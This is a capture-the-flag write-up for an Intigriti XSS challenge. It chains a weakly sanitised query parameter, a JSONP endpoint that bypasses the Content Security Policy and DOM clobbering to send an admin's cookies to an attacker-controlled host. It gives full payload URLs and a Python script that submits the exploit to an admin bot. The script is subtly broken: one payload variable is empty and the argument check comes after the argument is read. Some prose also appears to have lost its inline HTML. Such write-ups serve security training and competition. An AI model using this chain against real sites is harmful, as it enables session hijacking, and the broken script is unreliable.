



# Intigriti's March challenge 0326 by [Kulindu](https://twitter.com/KulinduKodi)

## Description 

The solution:

* Should leverage a **XSS** vulnerability on the challenge page.
* Shouldn't be **self-XSS** or related to **MiTM** attacks.
* Should work in the latest version of Google Chrome.
* Should include:
    * The flag in the format **INTIGRITI{.*}**
    * The payload(s) used
    * Steps to solve (short description / bullet points)
* Should be reported on the Intigriti platform.

Get started:

1. Test your payloads on the [challenge page](https://challenge-0326.intigriti.io/challenge.html) & let's capture that flag!

## TL;DR

* The `q` parameter is vulnerable to **DOM-based XSS**, but **CSP** prevents direct script execution;

* The *CSP* restricts scripts to **same-origin** and blocks **inline payloads**;

* The `ComponentManager` can load scripts, but only from same-origin sources;

* The `/api/stats?callback=` endpoint provides a **JSONP** primitive for executing **arbitrary callbacks**;

* **DOM clobbering** is used to control the `authConfig` global object;

* The final payload combines these to trigger `loginRedirect`, bypass **CSP**, and exfiltrate the flag.


# Analysis

The target is a **black-box web application** that serves as a threat search portal, featuring 🌈✨ ***client-side rendering*** ✨🌈 for displaying search results. 
Notably, the application allows users to submit URLs for review by an admin user, providing an opportunity to demonstrate and report vulnerabilities directly to the platform's administrators, which is definitely very important.



from the client source code it's possible to see that search results are not actually used to call any API, but instead are rendered directly from the URL query parameter `q`.

From `main.js`:
```javascript
document.addEventListener('DOMContentLoaded', () => {

    const params = new URLSearchParams(window.location.search);
    const q = params.get('q');

    const resultsContainer = document.getElementById('resultsContainer');

    if (q) {
        const cleanHTML = DOMPurify.sanitize(q, {
            FORBID_ATTR: ['id', 'class', 'style'],
            KEEP_CONTENT: true
        });

        resultsContainer.innerHTML = `<p>Results for: <span class="search-term-highlight">${cleanHTML}</span></p>
                                      <p style="margin-top: 10px; color: #64748b;">No matching records found in the current operational datastore.</p>`;
    } else {
        resultsContainer.innerHTML = `<p>Enter a query to search the secure enclave.</p>`;
    }
   ...
});
```

The `DOMPurify` library is used to sanitize the user input, but with a very weak configuration that only forbids the `id`, `class` and `style` attributes, leaving all the other attributes (including handlers) available for exploitation.



Search results are fine, don’t get me wrong—but honestly, broken images that refuse to load and fire off an `onerror` handler?



Unfortunately, I guess we’ll just have to settle for the broken image.
The **Content Security Policy (CSP)** restricts the use of inline scripts and only allows scripts to be loaded from the same origin (`script-src 'self'`). 
That's interesting; we'll come back to that later.

The application client code, in addition, comprises curious functions in the `components.js` file:

```javascript
class ComponentManager {
    static init() {
        document.querySelectorAll('[data-component="true"]').forEach(element => {
            this.loadComponent(element);
        });
    }

    static loadComponent(element) {
        try {
            let rawConfig = element.getAttribute('data-config');
            if (!rawConfig) return;

            let config = JSON.parse(rawConfig);

            let basePath = config.path || '/components/';
            let compType = config.type || 'default';

            let scriptUrl = basePath + compType + '.js';

            console.log("[ComponentManager] Loading chunk:", scriptUrl);

            let s = document.createElement('script');
            s.src = scriptUrl;
            document.head.appendChild(s);
        } catch (e) {
            console.error("[ComponentManager] Failed to bind component:", e);
        }
    }
}

window.ComponentManager = ComponentManager;
```

This `ComponentManager` class is responsible for loading JavaScript components based on the `data-config` attribute of HTML elements.
It constructs the URL for the script to be loaded using the `path` and `type` properties from the JSON configuration, defaulting to `/components/default.js` if not specified.

That’s very interesting too; I think I already have an idea of how to make the most of it.


Come on, don't look at me like that – I'll tell you everything in a moment, don't worry.

Finally, `components.js` also exposes the following function on the global `window.Auth` object:

```javascript
window.Auth = window.Auth || {};

window.Auth.loginRedirect = function (data) {
    console.log("[Auth] Callback received data:", data);

    let config = window.authConfig || {
        dataset: {
            next: '/',
            append: 'false'
        }
    };

    let redirectUrl = config.dataset.next || '/';

    if (config.dataset.append === 'true') {
        let delimiter = redirectUrl.includes('?') ? '&' : '?';
        redirectUrl += delimiter + "token=" + encodeURIComponent(document.cookie);
    }

    console.log("[Auth] Redirecting to:", redirectUrl);
    window.location.href = redirectUrl;
};
```

This function, `loginRedirect`, is designed to handle authentication callbacks and redirect the user based on a configuration object (`window.authConfig`).
It constructs a redirect URL using the `next` property from the configuration, and if the `append` property is set to `'true'`, it appends the user's cookies as a query parameter named `token`.


## Exploit

And now… the part you’ve all been waiting for!

So, what we know so far is that:

The home page is vulnerable to **DOM-based XSS** through the `q` query parameter, which is rendered in the search results section without proper sanitization.

However, the presence of a strict **Content Security Policy (CSP)** that disallows inline scripts and restricts script sources to the same origin complicates exploitation, as it prevents the execution of injected JavaScript payloads.

This is where the `ComponentManager` comes into play.
By leveraging the `data-config` attribute, It is possible to inject a malicious script into the page.
However, the script must be hosted on the same origin to bypass the **CSP** restrictions, otherwise it won't be loaded at all; *dead end*.


There’s still one piece missing to complete the full picture.
The application must expose an **API** endpoint on the same origin that somehow reflects user input in the response and returns it as JavaScript code, which would allow us to execute our payload while bypassing the **CSP** restrictions.

After some endpoint fuzzing, I actually found such an endpoint: `/api/stats?callback=<js-function>`.

The endpoint returns a **JSON with Padding (JSONP)** response that includes the user-supplied callback function name, allowing us to execute arbitrary JavaScript code by providing a malicious function name as the `callback` parameter.

A little bit of context: **JSONP** is a technique where a server wraps JSON data in a JavaScript function call (the “padding”), allowing the response to be loaded via a `<script>` tag. 
This enables cross-domain data retrieval without using `XMLHttpRequest` or `fetch`, but it’s considered insecure compared to modern **Cross-Origin Resource Sharing (CORS)**.

As an example, if we send a request to `/api/stats?callback=alert`, the server will respond with:

```http
HTTP/2 200 OK
Date: Sun, 22 Mar 2026 22:47:12 GMT
Content-Type: application/javascript; charset=utf-8
Content-Length: 57
X-Powered-By: Express
Content-Security-Policy: default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self' data:; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com; font-src 'self' data: https://fonts.googleapis.com https://fonts.gstatic.com; frame-ancestors 'self'; frame-src 'self';
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
```
```javascript
alert({"users":1337,"active":42,"status":"Operational"});
```

This means that now it is possible to reflect arbitrary function calls and load them through the `ComponentManager`, effectively bypassing the **CSP** restrictions and executing our payload.

In particular, we are going to leverage this vulnerability to call the `window.Auth.loginRedirect` function, which will allow us to exfiltrate the admin's cookies and capture the flag.

However, since the `loginRedirect` function relies on a configuration object (`window.authConfig`) to determine the redirect URL and whether to append the cookies, we need to ensure that this configuration is set up correctly for our attack.

At this point, I got a bit stuck for a while, because I wanted to inject `window.authConfig` through the `?callback=` parameter as well, chaining it with the call doing something like this:

```js
/api/stats?callback=window.authConfig={dataset:{next:'https://<attacker-server>',append:'true'}};window.Auth.loginRedirect 
```

But unfortunately, this approach didn't work because the server doesn't allow special characters in the `callback` parameter, except for the dot (`.`) character.

I also tried some additional query parameter fuzzing to see if there were any variables that could be used to achieve the same result, but I couldn't find anything useful (sorry for the request flooding **0xblackbird**, ti voglio bene 🫂🫂)

After some thinking, I realized that I could include the configuration object directly in the **XSS** payload via **DOM Clobbering**.

By injecting a payload that creates a **DOM** element with the same name as the expected configuration variable (`authConfig`), we can effectively "clobber" the global variable and set it to our desired configuration.

The following payload does the job:

```html
<form name="authConfig" data-next="https://<attacker-server>" data-append="true">
```

The latter works because **Dataset API** allows to access `data-*` attributes as properties of the `dataset` object, which is exactly what the `loginRedirect` function does to retrieve the configuration values.

Putting everything together, the final payload that we can inject into the `q` parameter to achieve code execution and capture the flag is:

```html
?q=<form name="authConfig" data-next="https://<attacker-server>" data-append="true">
```

Making the complete URL to report to the admin look like this (URL-encoded to avoid issues with special characters):

```
https://challenge-0326.intigriti.io/challenge.html?q=%3Cform%20name=%22authConfig%22%20data-next=%22https://%3Cattacker-server%3E%22%20data-append=%22true%22%3E%3Cimg%20src=x%20data-component=%22true%22%20data-config=%7B%22path%22:%22/api/stats?callback=window.Auth.loginRedirect%22,%22type%22:%22#%22%7D%3E
```

After reporting the URL, the attacker controlled server receives the request with the admin's cookies in the query parameters, confirming the successful exploitation.

```
GET /?token=FLAG=INTIGRITI{019cdb71-fcd4-77cc-b15f-d8a3b6d63947} 
```


## PoC

Simple python script demonstrating how to generate the exploit URL and report it to the admin to play around with it on your own:

```python
import requests, sys, urllib.parse

request_bin = sys.argv[1]

if len(sys.argv) < 2:
    print(f"Usage: {sys.argv[0]} <request_bin_url>")
    sys.exit(1)

base_url = "https://challenge-0326.intigriti.io"
victim_server = f"{base_url}/challenge.html"
admin_report = f"{base_url}/report"

auth_config = f'<form name="authConfig" data-next="{request_bin}" data-append="true">'
same_origin_script = f''

xss_payload = urllib.parse.quote(auth_config + same_origin_script)
exploit_url = f"{victim_server}?q={xss_payload}"

resp = requests.post(admin_report, data={"url": exploit_url})
if resp.status_code != 200:
    print(f"Failed to submit the exploit URL: {resp.status_code}")
    sys.exit(1)

print(
    f"Exploit URL: {exploit_url} submitted successfully. Check {request_bin} for exfiltrated cookies."
)
```
